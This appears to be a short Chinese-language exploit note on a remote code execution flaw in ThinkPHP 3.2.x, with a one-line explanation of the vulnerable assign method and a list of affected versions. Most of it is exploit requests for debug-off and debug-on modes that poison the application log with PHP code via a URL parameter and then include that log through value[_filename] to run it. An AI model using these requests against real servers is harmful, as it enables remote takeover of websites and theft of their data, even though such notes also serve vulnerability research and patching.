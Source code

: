 ## ThinkPHP3.2.x RCE

​	在ThinkPHP3.2.x框架的程序中，如果要在模板中输出变量，需要在控制器中把变量传递给模板，系统提供了assign方法对模板变量赋值，本漏洞的利用条件为assign方法的第一个变量可控。

Ver：

- ThinkPHP 3.2.X

Exp：  
debug关闭：  

```
1、/index.php?m=--><?=phpinfo();?>
2、http://127.0.0.1/index.php?0=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_07_13.log
```
debug开启：  

```
1、/index.php?m=Home&c=Index&a=index&test=--><?=phpinfo();?> 
2、http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Home/21_07_13.log
```

